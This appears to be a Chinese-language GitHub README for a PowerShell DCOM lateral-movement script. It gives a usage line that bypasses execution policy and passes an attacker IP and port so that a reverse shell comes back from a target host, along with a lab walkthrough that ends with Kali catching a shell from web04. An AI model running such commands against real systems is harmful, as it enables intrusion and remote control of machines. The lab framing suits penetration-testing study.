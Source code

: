 # Dcom-LateralMovement
利用DCOM进行横向移动的脚本

使用方法：
powershell -ep bypass -c ".\dcom.ps1 lhost lport rhost"
例：
powershell -ep bypass -c ".\dcom.ps1 192.168.45.195 3333 192.168.195.72"

lhost：攻击机IP
lport：攻击机的监听端口
rhost：要横向移动到的目标靶机的IP

演示案例：
我们已经获得192.168.50.74 - client74的控制权限
想要横向移动到192.168.50.72 - web04主机

1. 在kali开启监听
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/0e7de4a5-9432-4bd6-b367-19907aa35850)
3. 在client74中运行脚本
![image](https://github.com/SiennaSkies/Dcom-LateralMovement/assets/105592340/a20e96ed-d847-42dc-8519-93740c11e556)
4. kali收到来自web04的shell
